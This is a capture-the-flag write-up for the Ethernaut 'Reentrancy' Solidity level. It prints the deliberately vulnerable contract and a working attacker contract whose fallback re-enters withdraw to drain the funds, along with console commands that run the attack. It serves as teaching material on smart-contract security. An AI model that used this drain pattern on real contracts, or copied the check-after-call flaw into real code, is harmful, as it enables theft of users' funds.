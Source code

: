 ```yaml
---
layout: post
title: Ethernaut - 10. Reentrancy
date:  2022-09-24
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> The goal of this level is for you to steal all the funds from the contract.<br /><br />
  Things that might help:
  - Untrusted contracts can execute code where you least expect it.
  - Fallback methods
  - Throw/revert bubbling
  - Sometimes the best way to attack a contract is with another contract.
  - See the Help page above, section "Beyond the console"

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Writeup
1. Get new instance.
2. Get contract's balance.
    ``` javascript

    await getBalance(contract.address)
    // 0.001

    ```
3. Create a contract.
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface IReentrance {
        function donate(address _to) external payable;
        function withdraw(uint256 _amount) external;
    }

    contract ReentrancyAttacker {
        IReentrance levelInstance;
        uint targetValue = 0.001 ether;

        constructor(address _levelInstance) {
            levelInstance = IReentrance(_levelInstance);
        }

        function attack() public {
            levelInstance.withdraw(targetValue);
        }

        fallback() external payable {
            levelInstance.withdraw(targetValue);
        }
    }
    ```
4. Compile and deploy with `Reentrance` instance address.
5. Donate 0.001 ether to our `ReentrancyAttacker` contract.
    ```javascript

    await contract.donate('REENTRANCYATTACKER_CONTRACT_ADDRESS', {value: 0.001 })

    ```
6. Call `attack` function in the `ReentrancyAttacker`.
7. Submit instance ξ( ✿＞◡❛)